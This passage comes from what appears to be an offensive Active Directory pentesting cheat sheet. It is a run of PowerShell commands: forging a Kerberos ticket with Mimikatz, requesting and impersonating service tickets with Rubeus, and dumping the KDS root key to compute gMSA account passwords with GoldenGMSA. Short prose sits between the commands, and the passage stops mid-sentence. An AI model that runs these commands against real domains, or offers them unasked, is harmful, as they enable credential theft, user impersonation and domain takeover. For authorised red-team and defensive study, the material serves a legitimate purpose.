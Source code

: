 ```powershell
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<domain_SID> /target:<target>.domain.local /service:CIFS /rc4:<account_hash> /ptt"'
```

Requesting a ST with a valid TGT can be performed with **Rubeus** like this:

```powershell
.\Rubeus.exe asktgs /ticket:tgt.kirbi /service:LDAP/dc.domain.local,cifs/dc.domain.local /ptt
```

Another solution, if you don't have the NT hash or the AES keys of the service but you have a TGT for the service account, is to impersonate an account via a request for a service ticket through S4USelf to an alternative service (and the opsec is better since the PAC is consistent):

```powershell
.\Rubeus.exe s4u /self /impersonateuser:"Administrator" /altservice:"cifs/target.domain.local" /ticket:"<base64_target_TGT>" /nowrap
```

### GoldenGMSA

With the KDS root key and some information about the gMSA account (that can be retrieved with low privileges), it is possible to compute the gMSA's password.

#### Dump the KDS root key

This operation needs admin privs on the domain

```powershell
#For the root domain of the forest
./GoldenGMSA.exe kdsinfo

#For a specific domain
./GoldenGMSA.exe kdsinfo --forest domain.local
```

#### Retrieve gMSA's information

Low privs are sufficient here

```powershell
#All the gMSA accounts
./GoldenGMSA.exe gmsainfo

#A specific one in a specific domain
./GoldenGMSA.exe gmsainfo --sid <gmsa_SID> --domain domain.local
```

#### Compute the password

This operation can be realized offline

```powershell
./GoldenGMSA.exe compute --sid <gmsa_SID> --kdskey <base64_KDS_key> --pwdid <base64_msds-ManagedPasswordID_value>
```

The output is in Base64 and the password is generally not readable. It is possible to calcul the NT hash from it instead:
